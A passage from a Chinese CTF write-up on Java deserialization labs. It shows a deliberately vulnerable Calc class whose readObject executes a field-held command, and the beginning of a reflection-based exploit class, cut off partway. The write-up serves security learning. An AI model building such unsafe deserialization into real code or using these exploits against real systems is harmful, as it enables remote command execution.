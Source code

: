 ```yaml
---
created: '22/03/31'
title: javaDeserializeLabs writeup
tags:
  - java
  - java安全
  - 反序列化
---
```

# javaDeserializeLabs writeup
题目地址: https://github.com/waderwu/javaDeserializeLabs

## lab1-basic
jar包解压后的目录如下，主要关注自己写的类:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220331131459.png)

发现存在一个Calc类可以直接给我们作为反序列化，其代码如下:
```java
package com.yxxx.javasec.deserialize;

import java.io.ObjectInputStream;
import java.io.Serializable;

public class Calc implements Serializable {
    private boolean canPopCalc = false;
    private String cmd = "ls -al";

    public Calc() {
    }

    private void readObject(ObjectInputStream objectInputStream) throws Exception {
        objectInputStream.defaultReadObject();
        if (this.canPopCalc) {
            Runtime.getRuntime().exec(this.cmd);
        }

    }
}
```

那么exp就很好写了，反射一下修改属性即可。
```java
package com.yxxx.javasec.deserialize;


import java.lang.reflect.Field;

public class Exp {
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }

```